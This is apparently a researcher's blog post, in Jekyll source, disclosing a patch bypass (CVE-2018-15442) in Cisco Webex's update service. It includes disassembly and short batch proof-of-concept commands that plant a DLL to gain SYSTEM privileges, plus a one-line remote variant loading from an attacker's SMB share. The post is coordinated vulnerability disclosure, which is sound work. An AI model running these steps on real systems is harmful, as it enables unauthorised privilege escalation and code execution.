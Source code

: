 ```yaml
---
layout: post
title: "WebExec Reloaded :: Cisco Webex Meetings Desktop App Update Service DLL Planting Elevation of Privilege Vulnerability"
date: 2018-12-03 10:00:00 -0500
categories: blog
excerpt_separator: <!--more-->
---
```


<img class="excel" alt="Cisco Webex" src="/assets/images/cisco-webex-logo.jpg">
<p class="cn" markdown="1">Some time ago [Ron Bowes](https://twitter.com/iagox86) found a vulnerability in Cisco WebEx Meetings Desktop App that could allow local privilege escalation, or, if you have a user account you can use psexec to gain remote code execution as SYSTEM. He named the vulnerability **WebExec** (cute) and even gave it a pretty [website](https://webexec.org/)! The problem? Well, it turns out the patch wasn't so good...</p>
<!--more-->

<p class="cn">TL;DR</p>

<p class="cn" markdown="1">*I walk through the re-discovery and exploitation of [CVE-2018-15442](/advisories/src-2018-0034) which is a bypass for the original bug. Since the original vulnerability and the bypass are so similar, Cisco decided to not issue a new CVE and I tend to agree with this choice. Technically its a remote code execution but the way this bug is triggered makes more sense for exploitation to come from a local context.*</p>

### Introduction

<p class="cn" markdown="1">The [Webex site](https://www.webex.com/products/meetings/index.html) explains what webex is, quickly summing it up as:</p>

> ...With Webex Meetings, joining is a breeze, audio and video are clear, and screen sharing is easier than ever. We help you forget about the technology, to focus on what matters...

<p class="cn" markdown="1">Please Cisco, at least don't forget about the security of your technology!</p>

<p class="cn" markdown="1">So, after reading Ron's [blog post](https://blog.skullsecurity.org/2018/technical-rundown-of-webexec) we know that the underlying issue was that the **WebExService** takes a user controlled binary and executes it as SYSTEM. I really don't think it gets easier than that for a vulnerability, hooray Cisco!</p>

### Re-discovering the Vulnerability

<p class="cn" markdown="1">According to Ron the patched version checks for a signed executable by WebEx.</p>

> The patched version of WebEx still allows remote users to connect to the process and start it. However, if the process detects that it's being asked to run an executable that is not signed by WebEx, the execution will halt. Unfortunately, that gives us no information about whether a host is vulnerable!

<p class="cn" markdown="1">Well, let's do what we normally do and check the patch for ourselves. After installing the latest [version](https://akamaicdn.webex.com/client/WBXclient-33.6.2-16/webexapp.msi) at the time from Cisco's CDN, we can check that we have no more updates to do:</p>

{% include image.html
            img="assets/images/latest-webex.png"
            title="Version 33.6.2.16 was the latest at the time"
            caption="Version 33.6.2.16 was the latest at the time"
            style="width:50%;height:50%" %}

<p class="cn" markdown="1">Diving into the binary stored at `C:\Program Files\Webex\Webex\Applications\WebExService.exe` we see some interesting things. The first thing I noticed is that the code only looks for one argument type, that is, `software-update`.</p>

```
.text:00402DC4 loc_402DC4:                                          ; CODE XREF: sub_402D80+1C
.text:00402DC4                 push    offset aSoftwareUpdate       ; "software-update"
.text:00402DC9                 push    dword ptr [esi+8]            ; lpString1
.text:00402DCC                 call    ds:lstrcmpiW
.text:00402DD2                 test    eax, eax
.text:00402DD4                 jnz     loc_402E66
.text:00402DDA                 push    208h                         ; Size
.text:00402DDF                 push    eax                          ; Val
.text:00402DE0                 lea     eax, [ebp+Dst]
.text:00402DE6                 push    eax                          ; Dst
.text:00402DE7                 call    memset
.text:00402DEC                 add     esp, 0Ch
.text:00402DEF                 lea     eax, [ebp+Dst]
.text:00402DF5                 push    offset pszFile               ; "ptupdate.exe"
.text:00402DFA                 push    dword ptr [esi+10h]          ; pszDir
.text:00402DFD                 push    eax                          ; pszDest
.text:00402DFE                 call    ds:PathCombineW
.text:00402E04                 sub     esp, 18h
.text:00402E07                 lea     eax, [ebp+Dst]
.text:00402E0D                 mov     ecx, esp                     ; Dst
.text:00402E0F                 mov     [esi+10h], eax
.text:00402E12                 push    eax                          ; Src
.text:00402E13                 call    sub_402EB0
.text:00402E18                 call    sub_402310                   ; signature check on ptupdate.exe
.text:00402E1D                 add     esp, 18h
.text:00402E20                 test    eax, eax
.text:00402E22                 jz      short loc_402E46             ; jump if we don't pass the check!
.text:00402E24                 lea     eax, [ebp+var_214]
.text:00402E2A                 mov     [ebp+var_214], 0
.text:00402E34                 push    eax
.text:00402E35                 push    ecx
.text:00402E36                 lea     ecx, [edi-3]
.text:00402E39                 lea     edx, [esi+0Ch]
.text:00402E3C                 call    sub_402960                   ; execute "ptupdate.exe" as winlogon.exe
```

<p class="cn" markdown="1">Later, the code does a PathCombineW call with an argument that we supply on the command line with the string `ptupdate.exe`. That's about where I stopped reversing. I didn't even bother to reverse the signature check function or the function that does the impersonation and execution. I already had a plan of attack.</p>

### Exploitation

<p class="cn" markdown="1">So at this point, all we needed to do was copy the `C:\Program Files\Webex\Webex\Applications\*` (including the ptUpdate.exe binary) into a user controlled folder that the guest or local user owns (this can be a sandboxed directory also) and either find a DLL planting vulnerability or force one by deleting one of the DLL's.</p>

<p class="cn" markdown="1">I don't like unexpected application behavior when I can avoid it, so I simply looked for a DLL planting issue that wouldn't affect application state. To do that I ran my litte proof of concept:</p>

```bat
mkdir %cd%\\si
copy C:\\PROGRA~1\\Webex\\Webex\\Applications\\* %cd%\\si\\*
sc start webexservice a software-update 1 %cd%\\si
```

<p class="cn" markdown="1">As it turns out, `SspiCli.dll` looked like a decent target.</p>

{% include image.html
            img="assets/images/DLL-planting.png"
            title="ptUpdate.exe can't find SspiCli.dll in the cwd"
            caption="ptUpdate.exe can't find SspiCli.dll in the cwd"
            style="width:100%;height:100%" %}

<p class="cn" markdown="1">Of course, we could have just cross referenced the 43 LoadLibraryW calls and leveraged one of those too. Unfortunately my proof of concept exploit needed to be 4 commands, instead of 3. Booooooo Cisco!</p>

```bat
mkdir %cd%\\si
copy C:\\PROGRA~1\\Webex\\Webex\\Applications\\* %cd%\\si\\*
copy SspiCli.dll %cd%\\si
sc start webexservice a software-update 1 %cd%\\si
```

{% include image.html
            img="assets/images/webex-lpe.png"
            title="LPE as SYSTEM via DLL planting"
            caption="LPE as SYSTEM via DLL planting"
            style="width:100%;height:100%" %}

<p class="cn" markdown="1">As mentioned, you could technically leverage this for RCE as SYSTEM as well, but its authenticated anyway. `sc \\victim start webexservice a software-update 1 "\\attacker\share\si"`.</p>

### Conclusion

<p class="cn" markdown="1">Whenever you control a path to a file operation that's being performed by a high privileged service, you are bound to be vulnerable to attacks. This vulnerability is so simple and powerful in that it can be triggered from remote using SMB as well as allow for a nice sandbox escape. I'm convinced that logical vulnerabilities will be the future of serious exploitation since they really do side step 99% of operating system level mitigations.</p>

<p class="cn" markdown="1">I find it incredible that Cisco couldn't patch this right the first time. All they needed to do was use a fixed path to the `C:\Program Files\Webex\Webex\Applications` directory and remove user controlled input all together. This vulnerability was found in about 10 minutes and I couldn't help but rename the vulnerability to *WebExec reloaded*, get it? ...re-loading an arbitrary DLL by an attacker!?</p>

<p class="cn" markdown="1">Finally, a big thanks to [iDefense](https://vcp.idefense.com/login.jsf) for helping with the coordination of the vulnerability!</p>

### References

<div markdown="1" class="cn">
- [https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20181024-webex-injection](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20181024-webex-injection)
- [https://blog.skullsecurity.org/2018/technical-rundown-of-webexec](https://blog.skullsecurity.org/2018/technical-rundown-of-webexec)
</div>